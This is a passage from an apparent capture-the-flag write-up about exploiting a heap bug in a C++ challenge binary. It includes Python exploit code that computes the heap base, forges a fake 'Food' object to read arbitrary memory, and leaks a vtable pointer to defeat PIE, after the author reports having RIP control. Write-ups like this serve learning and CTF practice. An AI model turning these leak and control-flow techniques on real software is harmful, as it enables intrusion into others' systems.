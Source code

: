 This works reliably, so long as `payload` contains no whitespace. Right now, I have:

1. a reliable exploit that produces an arbitrary read, as well as RIP control.
2. a reliable heap pointer leak

Can I finish the challenge? Maybe.

### Exploitation minutiae

First of all, I need to figure out the offsets to get from leak-to-leak. The heap base is easy to figure out:

```python
heapbase = (heapleak>>12)<<12
```

But what do you do with that? I need to find the location of an active `struct Food` in memory for leaking, so I search for it:

```python
def leak(addr: int, sz: int=8): # leak the first `sz` bytes from `addr`
    fakeFood(fit({8:addr,0x10:sz+8}))
    return unpack(printName()[:sz],'all')
alloc(1, b'a'*7)
search_str = b'\0%s\0' % (b'a'*7)
foods1_offset = next(i for i in range(0,99999,0x1000) if search_str in (dat := pack(leak(heapbase+i,0x1000),'all')))
foods1_offset+= dat.index(search_str)-0x17 # -0x17 because that's the distance from this string to the _vtable.
PIE_leak = leak(heapbase+foods1_offset) # this is a leak of `food[idx]->_vtable`. 
```

The pointer leaked is either `Food`'s vtable or `Bamboo`'s vtable, depending on what `food[idx]` was.

![image-20210711113202397](image-20210711113202397.png)
